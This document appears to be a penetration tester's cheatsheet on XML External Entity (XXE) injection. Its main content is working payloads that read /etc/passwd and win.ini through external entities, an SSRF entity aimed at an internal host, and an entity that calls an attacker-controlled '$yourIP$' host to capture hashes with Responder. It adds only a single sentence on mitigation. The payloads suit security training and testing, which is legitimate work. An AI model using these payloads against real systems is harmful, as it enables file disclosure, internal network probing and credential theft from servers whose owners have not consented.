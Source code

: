 # XXE Injection

XML External Entity injection (XXE) - [OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) *"is a type of attack against an application that parses XML input. This attack occurs when **XML input containing a reference to an external entity is processed by a weakly configured XML parser**. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts."*

## XXE to retrieve files

Portswigger example of stock level in  shopping application:
`<?xml version="1.0" encoding="UTF-8"?> <stockCheck><productId>381</productId></stockCheck>`

`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`

## XXE to SSRF attacks

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`

3. Blind XXE to exfiltrate data out-of-band
4. Blind XXE to retrieve data via error messages

## XXE XML Entity injection

See [[XML-Basics]] for more about XML
```xml
<!--Last Line of Request -->

<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)> <!-- REF: (#ANY) instead of (ANY) -->
<!ENTITY file SYSTEM "file:///etc/passwd">
]> 
<xmlEntityInjection>
	<Author>Hacker1</Author> 
	<Subject>&file;</Subject>
	<Content>LearnDaXMLs3</Content>
</xmlEntityInjection>

<!--Notes -->
<!-- Creates a Header-->
<!-- System call to file variable->
<!-- Prints address file with &file -->
<!-- The two section must connect -->
```
[PayloadsAllTheThings - XXE ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml)

To examplify, simplify the above and enumerate the OS with Arbituary File Read
```xml
<!-- Either:  -->
<!-- SYSTEM "/etc/passwd"  -->
<!-- SYSTEM "file:///etc/passwd"  -->

<!--Windows  -->

<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
<!--Entity is injected somewhere   -->
<placetoinject>
	&test;
</placetoinject>

<!--Linux  -->

<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<!--Entity is injected somewhere   -->
<placetoinject>
	&test;
</placetoinject>
```

XXE abuse [[Server-Side-Request-Forgery]] - and capture hashes with [[Responder-Cheatsheet]]
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://$yourIP$/test"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
The above is modified from HackTricks - [check Hacktricks for Blind SSRF, DTD abuse and others](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

## Mediation

Configuration of a XML interperter disallowing the inclusion of external entities enabling attack against applications that interpret XML language in their parameters. 



## References

[THM Walkthrough Room on XXE CVE-2021-29447](https://tryhackme.com/room/wordpresscve202129447)
[Portswigger](https://portswigger.net/web-security/xxe)
[BrightSec](https://brightsec.com/blog/xxe-attack/)
[OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
[PayloadsAllTheThings - XXE ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml)
[Hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

